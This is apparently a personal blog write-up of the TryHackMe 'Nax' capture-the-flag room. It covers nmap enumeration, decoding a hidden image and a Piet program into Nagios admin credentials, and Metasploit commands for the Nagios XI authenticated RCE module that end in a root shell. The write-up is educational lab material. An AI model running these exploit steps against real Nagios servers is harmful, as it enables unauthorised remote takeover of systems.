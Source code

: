 ```yaml
---
layout: post
title: THM Nax writeup
date: 2022-06-18T19:22:24.527Z
---
```

# Nax writeup

After lunching the vm i started doing some enumeration, port scanning and fuzzing

```
# Nmap 7.80 scan initiated Sun Jun 19 16:46:08 2022 as: nmap -sC -sV -oN nmap/results -v nax.thm
Nmap scan report for nax.thm (10.10.55.121)
Host is up (0.37s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp    Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap    OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| tls-alpn: 
|_  http/1.1
```

i found 5 ports open, but the only interesting one here is port 80 which is the webserver, i also did some fuzzing with gobuster but it didn't find actually something useful and so i looked at the website itself

![](/src/images/uploads/9s.png)

nothing interesting except those periodic table elements where if you get the atomic values you will get this

```
47 80 73 51 84 46 80 78 103
```

which looks like ascii values and by using an online converter from ascii to text you will get `/PI3T.PNg` which is the answer for the sercret file 

by opening that image you will get this 

![](/src/images/uploads/9d.png)

download that image and check its exif data 

```
exiftool PI3T.PNg
```

and here you will find the owner of the image

looking at the image it looks like piet programming language which decoded can show probably interesting information

i installed [npiet](https://www.bertnase.de/npiet/) and then ran 

```
./npiet PI3T.ppm -e 1000
```

which gives `nagiosadmin%n3p3UQ&9BjLp4$7uhWdY` probably user and password

after doing a small reserach i found this interesting [exploit](https://www.exploit-db.com/exploits/48191) which requires user and password that we have, then start metasploit

```
msfconsole
```

```
Msf6> use exploit/linux/http/nagios_xi_authenticated_rce
Msf6> options
Msf6> set PASSWORD n3p3UQ&9BjLp4$7uhWdY
Msf6> set USERNAME nagiosadmin
Msf6> set RHOSTS nax.thm
Msf6> set LHOSTS YOUR_IP
Msf6> run
```

and after running the exploit you will get a root shell where you can get both the flags